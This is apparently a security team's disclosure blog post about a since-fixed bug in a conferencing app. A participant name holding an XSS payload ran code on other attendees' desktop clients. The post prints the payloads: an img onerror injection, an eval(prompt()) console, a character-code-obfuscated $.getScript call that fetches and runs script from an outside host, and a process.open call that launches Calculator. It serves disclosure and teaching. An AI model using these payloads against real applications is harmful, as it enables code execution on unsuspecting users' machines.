 ```yaml
---
layout: post
title:  "XSS to RCE in ..."
date:   2015-09-08 17:28:00
categories: xss rce bugbounty
---
```


**Note: this has been fixed**.

## XSS to RCE "yeah right, RSnake"

I accidentally triggered a cross-site scripting (XSS) vulnerability in &lt;conf provider X&gt; that worked when using the web application as well as the native OS X application (and possibly additional clients). Nowadays, XSS -> Remote Code Execution (RCE) is possible thanks to Node. For every person in any meeting that I join, I could execute code on their computer.

# Standup

I entered a meeting with the classic first name of `<img src=x onerror=alert()>` (the [bobby tables](http://xkcd.com/327/) of XSS). A few minutes into the conversation, [toomey] noticed a broken image pop up. Uh oh. When I asked if he also saw an alert box, my colleague [ben] chimed in and said yes.

So we have XSS. Sweet. In at least two clients. Hmmm, this could be bad.

![chat](/assets/xssrce/badtime.jpg)

## eval(prompt())

We noticed that there was some filtering going on (such as stripping quotes), so we'd have to use `String.toCharCode` to generate any string values. The web app enforced a value length but this is easily bypassed with a proxy and was not enforced in the desktop client. [ben] quickly came up with a good way to explore the impact of this xss with a simple debug console:

`<img src=x onerror=eval(prompt())>` (35 chars)

This lets us generate payloads without having to generate `toCharCode` code each time. Sure this isn't difficult, but an executing prompt is so much easier to use.

## Exploring the native app

[greg] took a look at the &lt;conf provider X&gt; native application and noticed it used Node. Perhaps `process.open` would work.

It did.

![chat](/assets/xssrce/process.png)

## Putting it all together

That's when [ben] put everything together using a very short payload:

`<img src=x onerror=$.getScript(String.fromCharCode(47,47,120,111,114,46,99,99))>` (80 chars)

Now join any existing meeting and enter the above payload as your name. Everyone in the room see an alert box. Those using the native apps will also see their calculators open.

![Alert](/assets/xssrce/alert.png)

![Calculator!](/assets/xssrce/calc.png)

## How it works

The use of `String.fromCharCode` is just a classic way to bypass filtering/escaping of quotes. `String.fromCharCode(47,47,120,111,114,46,99,99)` is `//xor.cc`.

The payload can be simplified as:

`<img src=x onerror=$.getScript("//xor.cc")>`

[`$.getScript`](https://api.jquery.com/jquery.getscript/) tells jQuery to fetch and execute the javascript at `xor.cc`. The fetched javascript that opens the calculator is:

`process.open("/Applications/Calculator.app/Contents/MacOS/Calculator");` (72 chars)

## Why it sort of matters

XSS is XSS is XSS. But XSS in an app with an API to the filesystem is XSS is worse. &lt;conf provider X&gt; meetings typically are... unauthenticated. Everyone raise your hand. Now put down your hand if you have required password authentication for every meeting you have joined. Look to your left, look to your right, and notice everyone's hand is still up. If you've used &lt;conf provider X&gt;, chance are you've used it in a manner that let's this exploit work on any publicly known or guessable &lt;conf provider X&gt; meeting ID. I did not try to brute force the meeting space for open meetings. That would have been bad.

## Calculators

You can't have a good exploit unless calculators are involved. See [PDF content-type sniffing](https://bounty.github.com/researchers/avlidienbrunn.html) for an even better use of calculators in an attack.

![calc!!!](/assets/xssrce/igotcalc.png)

## Conclusion

Big ups to the GitHub appsec team. Within one hour we went from XSS to RCE. And it played out like something in one of those movies or TV shows. "We popped a faux console using eval and prompt while ripping open the binary to leverage a libary with system access to perform remote code execution... to open a calculator." Most of the credit has to go to [ben] and [greg], I just found XSS and I wouldn't have even known without [toomey].

[Did I mention that we're hiring an intern for the appsec team?](https://jobs.lever.co/github/8be6828a-2762-42da-bd11-8306addb0909)


[toomey]: https://twitter.com/patricktoomey "@patricktoomey"
[ben]: https://twitter.com/mastahyeti "@mastahyeti"
[greg]: https://twitter.com/gose1 "@gose1"

